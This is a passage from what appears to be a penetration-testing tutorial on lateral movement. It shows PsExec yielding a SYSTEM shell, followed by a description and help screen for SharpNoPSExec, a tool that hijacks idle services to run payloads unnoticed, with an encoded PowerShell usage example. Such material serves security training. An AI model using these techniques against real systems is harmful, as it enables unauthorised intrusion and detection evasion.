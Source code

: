 PsExec v2.43 - Execute processes remotely
Copyright (C) 2001-2023 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32&gt;whoami
nt authority\system
</code></pre>
<h3>SharpNoPSExec</h3>
<p><a href="https://github.com/juliourena/SharpNoPSExec">SharpNoPSExec</a> is a tool designed to facilitate lateral movement by leveraging existing services on a target system without creating new ones or writing to disk, thus minimizing detection risk. The tool queries all services on the target machine, identifying those with a start type set to disabled or manual, current status of stopped, and running with LocalSystem privileges. It randomly selects one of these services and temporarily modifies its binary path to point to a payload of the attacker’s choice. Upon execution, SharpNoPSExec waits approximately 5 seconds before restoring the original service configuration, returning the service to its previous state. This approach not only provides a shell but also avoids the creation of new services, which security monitoring systems could flag.</p>
<p>Executing the tool without parameters we will see some help and usage information.</p>
<pre><code class="language-powershell-session">PS C:\Tools&gt; .\SharpNoPSExec.exe

███████╗██╗  ██╗ █████╗ ██████╗ ██████╗ ███╗   ██╗ ██████╗ ██████╗ ███████╗███████╗██╗  ██╗███████╗ ██████╗
██╔════╝██║  ██║██╔══██╗██╔══██╗██╔══██╗████╗  ██║██╔═══██╗██╔══██╗██╔════╝██╔════╝╚██╗██╔╝██╔════╝██╔════╝
███████╗███████║███████║██████╔╝██████╔╝██╔██╗ ██║██║   ██║██████╔╝███████╗█████╗   ╚███╔╝ █████╗  ██║
╚════██║██╔══██║██╔══██║██╔══██╗██╔═══╝ ██║╚██╗██║██║   ██║██╔═══╝ ╚════██║██╔══╝   ██╔██╗ ██╔══╝  ██║
███████║██║  ██║██║  ██║██║  ██║██║     ██║ ╚████║╚██████╔╝██║     ███████║███████╗██╔╝ ██╗███████╗╚██████╗
╚══════╝╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═╝╚═╝     ╚═╝  ╚═══╝ ╚═════╝ ╚═╝     ╚══════╝╚══════╝╚═╝  ╚═╝╚══════╝ ╚═════╝

Version: 0.0.3
Author: Julio Ureña (PlainText)
Twitter: @juliourena

Usage:
SharpNoPSExec.exe --target=192.168.56.128 --payload="c:\windows\system32\cmd.exe /c powershell -exec bypass -nop -e ZQBjAGgAbwAgAEcAbwBkACAAQgBsAGUAcwBzACAAWQBvAHUAIQA="

Required Arguments:
--target=       - IP or machine name to attack.
--payload=      - Payload to execute in the target machine.

Optional Arguments:
--username=     - Username to authenticate to the remote computer.
--password=     - Username's password.
--domain=       - Domain Name, if no set a dot (.) will be used instead.

--service=      - Service to modify to execute the payload, after the payload is completed the service will be restored.
Note: If not service is specified the program will look for a random service to execute.
Note: If the selected service has a non-system account this will be ignored.
